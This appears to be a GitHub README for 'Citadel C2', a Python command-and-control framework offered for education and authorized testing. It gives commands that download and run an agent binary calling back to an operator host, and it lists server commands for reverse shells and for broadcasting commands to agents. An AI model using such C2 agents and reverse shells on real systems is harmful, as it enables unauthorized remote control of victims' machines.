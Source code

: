 ![Citadel Screenshot](/images/citadel_screenshot.png)

# Citadel C2 Framework

Citadel is a C2 Framework built in python for purely educational purpose. It's litteraly just doesn't do anything other than create connection between two computers.

## Quick Start

### Server Installation

```bash
# Clone repository
git clone https://github.com/johntad110/citadel-c2.git
cd citadel-c2

# Install dependencies
pip install -r requirements.txt

# Start server
python main.py --host 0.0.0.0 --port 8886
```

### Agent Deployment

```powershell
# Windows (PowerShell)
Invoke-WebRequest -Uri "https://github.com/johntad110/citadel-c2/releases/latest/download/phantom_windows.exe" -OutFile phantom.exe
./phantom.exe --c2-host YOUR_SERVER_IP --c2-port 8886
```

```bash
# Linux/macOS
wget https://github.com/johntad110/citadel-c2/releases/latest/download/phantom_linux -O phantom
chmod +x phantom
./phantom --c2-host YOUR_SERVER_IP --c2-port 8886
```

## Architecture

![Citadel C2 Archtecture](/images/citadel_c2_archtecture.svg)

## Command Reference

### Server Commands

| Command           | Description                |
| ----------------- | -------------------------- |
| `list`            | Show connected agents      |
| `interact <ID>`   | Control specific agent     |
| `shell <ID>`      | Start reverse shell        |
| `broadcast <cmd>` | Send command to all agents |

### Agent Commands

| Flag        | Description                            |
| ----------- | -------------------------------------- |
| `--c2-host` | Server IP/hostname (Required)          |
| `--c2-port` | Server port (Default: 8886)            |
| `--retry`   | Connection retry attempts (Default: 5) |

## Building From Source

### Requirements

- Python 3.9+
- PyInstaller
- Colorama

```bash
# Build server
pyinstaller --onefile main.py --name citadel_server --collect-all colorama

# Build agent
pyinstaller --onefile citadel/agent/phantom.py --name phantom --collect-all citadel.protocol
```

## Security Considerations

⚠️ **Warning:** This tool is for authorized security testing and educational purposes only.

- Always use on isolated networks
- Enable firewall rules to restrict access

## License

Apache License 2.0 - See [LICENSE](LICENSE)
